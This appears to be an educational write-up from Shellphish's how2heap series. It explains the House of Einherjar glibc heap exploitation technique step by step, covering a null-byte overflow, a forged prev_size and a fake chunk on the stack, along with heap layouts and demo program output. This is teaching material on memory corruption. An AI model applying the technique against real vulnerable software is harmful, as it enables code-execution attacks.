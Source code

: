 # Shellphish how2heap House of Einherjar

This is another section of the CTF team Shellphish's educational how2heap series. This section covers the House of Einherjar attack.

In order for this attack to work, the program must be compiled with the `tcache-option` option disabled for glibc. This attack will allow an attacker to get `malloc` to allocate a chunk of memory outside of the heap, however we need to know the address of where the fake chunk is, and we will need a single null byte overflow, and the abillity to overwrite the `previous_size` value for a heap chunk. 

## Exploitation Process

First we will allocate a single heap chunk `0x38` bytes large. This will be later used in our attack:

```
0:	0x38    :0x556a4b364010
```

Proceeding that we will create a fake chunk. This chunk will be located on the stack, however it can be located in the `bss`, `libc`, `heap` or anywhere that we can write to and know the address of:

```
0x0:	Previous Size:	0x100			:0x7fffbea426f0
0x8:	Chunk Size:		0x100
0x10:	fwd pointer
0x18:	bk pointer
0x20:	fwd size
0x28:	bk size
```

This chunk has five integers that we will need to write.  The first is the previous chunk pointer, which we have set to `0x100`. The next value is the chunk size value (the supposed size for our fake chunk) which we will also have set to `0x100` (however this will write over this value later). Proceeding that we will have the `fwd` and `bk` pointers (which are supposed to point to the next and previous free chunks) and the `fwd_size` and `bk_size` (supposed to be the corresponding sizes for the previous pointers). We will have the value for all of these bee the pointer to the fake chunk `0x7fffbea426f0`.

proceeding that we will now allocate another heap chunk `0xf8` bytes large:
```
0:	0x38	:0x556a4b364010
1:	0xf8	:0x556a4b364050
```

next we will execute an attack where we can write over the last byte of the size metadata for chunk `1` with a null byte `\x00` (this can be down with a null byte overflow). This will overwrite the `previous_chunk_in_use` bit, so the `malloc` will think that the previous chunk is free:

```
0:	0x38	:0x556a4b364010
1:	0xf8 previous_in_use bit = 0 with null byte overflow from chunk 0	:0x556a4b364050
```

For the next step, we will write a fake previous size to chunk `0`. The idea of this being that when we write the fake size to chunk `0`, we will then free chunk `1`. Since we overwrote the `previous_in_use_bit` to be `0x0`, when we free chunk `1` it will think that chunk `0` is also free. It will try to consolidate the chunk with the last chunk, which if we overflow the `previous_size` value for chunk `1` to be the difference between our fake chunk on the stack and chunk `1`, it will consolidate the chunk to the fake stack. Our fake chunk is at `0x7fffbea426f0`, and chunk `1` is at `0x556a4b364040` (when you factor in the `0x10` bytes of heap metadata) so the `previous_size` will be `0x556a4b364040 - 0x7fffbea426f0 = 0xffffd56a8c921950`:

```
0:	0x38 						:0x556a4b364010
1:	0xf8 previous_size overwritten to 0xffffd56a8c921950 & previous_in_use bit = 0 with null byte overflow from chunk 0			:0x556a4b364050
```

With that setup, we can now free chunk `1` and consolidate the heap to the fake chunk:

```
0:	0x38 (heap thinks this has been freed)			:0x556a4b364010
1:	0xf8 (freed)									:0x556a4b364050
```	

Now that the heap has consolidated to our fake chunk on the stack, we can just allocate another chunk, and we will get `malloc` to return a pointer to the stack (keep in mind, there is `0x10` bytes of heap metada):

```
0:	0x38 (heap thinks this has been freed)			:0x556a4b364010
1:	0xf8 (freed)									:0x556a4b364050
2:	0x200	Fake Chunk Allocated on Stack			:0x7fffbea42700
```

Just like that, we managed to allocate a fake chunk on the stack using a House of Einherjar attack!

## Code Running

Here is a copy of the code running:

```
$	./house_of_einherjar
Welcome to House of Einherjar!
Tested in Ubuntu 16.04 64bit.
This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.

We allocate 0x38 bytes for 'a'
a: 0x556a4b364010
Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: 0x38

We create a fake chunk wherever we want, in this case we'll create the chunk on the stack
However, you can also create the chunk in the heap or the bss, as long as you know its address
We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks
(although we could do the unsafe unlink technique here in some scenarios)
Our fake chunk at 0x7fffbea426f0 looks like:
prev_size (not used): 0x100
size: 0x100
fwd: 0x7fffbea426f0
bck: 0x7fffbea426f0
fwd_nextsize: 0x7fffbea426f0
bck_nextsize: 0x7fffbea426f0

We allocate 0xf8 bytes for 'b'.
b: 0x556a4b364050

b.size: 0x101
b.size is: (0x100) | prev_inuse = 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100
This is easiest if b.size is a multiple of 0x100 so you don't change the size of b, only its prev_inuse bit
If it had been modified, we would need a fake chunk inside b where it will try to consolidate the next chunk

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0x556a4b364040 - 0x7fffbea426f0 = 0xffffd56a8c921950

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk since b prev_inuse is not set
Our fake chunk size is now 0xffffd56a8c942911 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk
Next malloc(0x200) is at 0x7fffbea42700
```
